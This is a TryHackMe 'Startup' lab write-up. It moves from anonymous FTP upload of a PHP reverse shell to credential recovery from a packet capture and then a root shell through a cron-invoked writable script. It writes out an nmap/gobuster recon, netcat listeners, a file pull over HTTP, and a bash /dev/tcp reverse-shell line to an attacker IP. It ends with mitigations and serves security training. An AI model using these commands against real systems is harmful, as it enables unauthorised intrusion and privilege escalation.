# Startup — TryHackMe Writeup

**Difficulty:** Easy
**OS:** Linux
**Category:** Web, Privilege Escalation

---

## Setup — /etc/hosts

Before starting, the target IP was mapped to a custom hostname to
ensure proper virtual host resolution throughout the engagement:



---

## Reconnaissance — Nmap

A full TCP port scan was performed across all 65535 ports:

```bash
nmap startup.lab -p- --min-rate 500 -sC -sV -o ports.txt
```



The scan immediately returned significant information. Three services
were identified:

- **FTP (21)** — vsftpd 3.0.3, with anonymous authentication enabled
- **SSH (22)** — OpenSSH 7.2p2
- **HTTP (80)** — Apache 2.4.18

Among these, the FTP service immediately attracted attention. The `-sC`
flag triggered the default NSE scripts, which confirmed that:

- Anonymous authentication was enabled
- The `ftp` directory was writable (`drwxrwxrwx`)
- Two files were already present: `important.jpg` and `notice.txt`

Anonymous FTP access combined with write permissions represents a
significant security risk — particularly when a web server is also
exposed on the same host.

**Attack surface summary:** FTP (21), SSH (22), and HTTP (80).

---

## Web Enumeration

Accessing `http://startup.lab` in the browser revealed a simple
placeholder page:



The page contained minimal content. Inspecting the page source
revealed an HTML comment:

```html
<!-- When are we gonna update this?? -->
```



Although this comment does not confirm the presence of a specific
vulnerability, it suggests the application may not be actively
maintained.

Directory enumeration was performed using Gobuster:

```bash
gobuster dir -u http://startup.lab -w /usr/share/seclists/Discovery/Web-Content/big.txt
```



The `/files` directory was discovered, returning a 301 redirect.

---

## FTP and Web — Connecting the Attack Surface

Accessing `http://startup.lab/files/` revealed the contents of the
FTP share directly through the web server:



The directory exposed:

- `ftp/` — the writable FTP directory previously identified
- `important.jpg` — an image file with no significant content
- `notice.txt` — a text file referencing a user named **Maya**



This observation confirmed that the FTP directory was mapped directly
into the web server's document root. Any file uploaded through FTP
would immediately become accessible over HTTP.

Since the web server was running Apache and the upload directory was
writable, uploading a PHP reverse shell and triggering it through the
browser represented a viable initial access path.

---

## Initial Access — PHP Reverse Shell via FTP

Anonymous FTP authentication was established:

```bash
ftp startup.lab
# Username: anonymous
# Password: (empty)
```

The PHP reverse shell used during this assessment was the
**PentestMonkey PHP Reverse Shell**, configured with the attacker's
IP address and listener port:

```bash
cd ftp
put phpm.php
```



The uploaded file became immediately visible through the web server:



> Multiple PHP reverse shell scripts were tested during this
> assessment. The PentestMonkey implementation was the only one that
> produced a stable connection.

A Netcat listener was started on the attacker machine:

```bash
nc -lvnp 9999
```

Accessing the uploaded file through the browser triggered execution
of the PHP payload, resulting in a reverse shell connection as
`www-data`:



An interactive shell was spawned to improve terminal usability:

```bash
script /dev/null -qc /bin/bash
```

---

## Post-Exploitation — Packet Capture Analysis

Basic filesystem enumeration revealed a directory named `incidents`
at the filesystem root, owned by `www-data`:



Inside, a packet capture file was discovered:

```bash
ls -la /incidents
```



suspicious.pcapng

Packet capture files may contain sensitive network traffic including
credentials, authentication attempts, or interactive session data.
The file was transferred to the attacker machine for analysis:

```bash
# On the target
python3 -m http.server 8000

# On the attacker machine
wget http://startup.lab:8000/suspicious.pcapng
```



The capture was opened in Wireshark. Several TCP streams contained
packets with the PSH/ACK flag combination and significantly larger
payloads than average — an indicator that interactive data was
exchanged during those sessions.



The **Follow TCP Stream** feature was used to reconstruct one of
these sessions. PSH indicates that a user submitted input to the
system; ACK indicates the system responded. Together, they suggest
an interactive session was captured.



Inspection of the reconstructed stream revealed the following
sequence:

1. An attempt to access `/home/lennie` resulted in "Permission denied"
2. A `sudo -l` command was issued
3. The password `c4ntg3t3n0ughsp1c3` was entered three times

Based on the surrounding commands, it was reasonable to infer that these
credentials belonged to the `lennie` user.

The hypothesis was reinforced by the fact that the same password was
submitted three consecutive times, suggesting the user was confident
in its value.

**Recovered credential:** `lennie : c4ntg3t3n0ughsp1c3`

---

## Privilege Escalation — lennie

Confirming the existence of the `lennie` user:

```bash
ls -la /home
```



Switching to the `lennie` account:

```bash
su lennie
# Password: c4ntg3t3n0ughsp1c3
cd ~
cat user.txt
```



**User flag captured.**

---

## Privilege Escalation — Cron Job Abuse via Writable Script

### Filesystem Enumeration

While exploring the `lennie` home directory, a `scripts` subdirectory
was identified:

```bash
ls -la ~/scripts
```



It contained two files:

- `planner.sh` — owned by root, not writable
- `startup_list.txt` — owned by root, not writable

Inspecting the contents of `planner.sh`:

```bash
cat ~/scripts/planner.sh
```
Note: on the screenshot i used `vim`


```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

The script performed two actions:

1. Wrote the contents of the `$LIST` variable to `startup_list.txt`
2. Invoked `/etc/print.sh`

### Identifying the Scheduled Execution

Monitoring the `startup_list.txt` timestamp over time confirmed that
`planner.sh` was being executed automatically at regular intervals:



The file was updated without any manual intervention, strongly 
suggesting that a privileged scheduled task was invoking planner.sh.

### Analysing the Execution Chain

Inspecting `/etc/print.sh`:

```bash
cat /etc/print.sh
ls -l /etc/print.sh
```



-rwx------ 1 lennie lennie 25 Nov 12 2020 /etc/print.sh

Although `planner.sh` itself was owned by root and not writable, it
delegated part of its execution flow to `/etc/print.sh` — a file
owned by `lennie` with full read, write, and execute permissions.

Since the scheduled root process invoked `planner.sh`, which in turn
called `/etc/print.sh`, making it a strong candidate for privilege escalation.

### Exploitation

The contents of `/etc/print.sh` were replaced with a reverse shell
payload:

```bash
echo '#!/bin/bash' > /etc/print.sh
echo 'bash -i >& /dev/tcp/192.168.152.68/5555 0>&1' >> /etc/print.sh
cat /etc/print.sh
```



A listener was started on the attacker machine:

```bash
nc -lvnp 5555
```

When the scheduled root process next executed `planner.sh`, control
was transferred to the attacker-controlled `/etc/print.sh`, resulting
in a reverse shell with root privileges:




**Root flag captured.**


---

## Understanding the Privilege Escalation

The privilege escalation relied on an insecure execution chain
implemented by a root-owned scheduled task.

Scheduled Task (root)  
│  
▼  
planner.sh (owned by root — not writable)  
│  
▼  
/etc/print.sh (owned by lennie — fully writable)  
│  
▼  
Executed with root privileges

Although `planner.sh` itself could not be modified, it delegated
execution to `/etc/print.sh`. Because that file was writable by
`lennie`, arbitrary commands could be injected without requiring
elevated privileges.

When the root process executed `planner.sh`, the attacker-controlled
`/etc/print.sh` was invoked, resulting in a root shell.

This type of vulnerability highlights the importance of verifying
file permissions not only on scheduled tasks themselves, but on
every script they invoke during execution.

---

## Vulnerability Impact & Mitigations

**Initial Access:**
- Anonymous FTP authentication was enabled without restrictions
- The FTP upload directory was directly mapped to the web server root
- PHP files uploaded through FTP were interpreted by Apache, enabling RCE

**Credential Access:**
- Sensitive network traffic was stored in a packet capture file
- Credentials were transmitted in plaintext and recovered using Wireshark

**Privilege Escalation:**
- A root-owned scheduled task delegated execution to a user-writable script
- Improper file permissions allowed arbitrary command execution with root privileges

**Recommended mitigations:**
- Disable anonymous FTP authentication when not strictly required
- Never expose FTP upload directories through the web server document root
- Disallow execution of server-side scripts within upload directories
- Encrypt all sensitive communications using secure protocols
- Restrict write permissions on every script invoked by privileged services
- Periodically audit file permissions associated with scheduled tasks

---

## Attack Chain Summary

| Step | Description |
|------|-------------|
| 01 | Full TCP enumeration identified FTP, SSH, and HTTP |
| 02 | Anonymous FTP confirmed with writable directory |
| 03 | `/files` directory mapped FTP share to web root |
| 04 | PHP reverse shell uploaded via FTP and triggered via HTTP |
| 05 | Initial shell obtained as `www-data` |
| 06 | `suspicious.pcapng` discovered in `/incidents` |
| 07 | Wireshark analysis of TCP stream revealed credentials |
| 08 | Switched to `lennie` via `su` |
| 09 | User flag captured |
| 10 | `planner.sh` identified as root-executed scheduled script |
| 11 | `/etc/print.sh` confirmed writable by `lennie` |
| 12 | Reverse shell injected into `/etc/print.sh` |
| 13 | Root shell received on next scheduled execution |
| 14 | Root flag captured |

---

> Made by [Noname](https://github.com/NonamesecX) | For educational purposes only

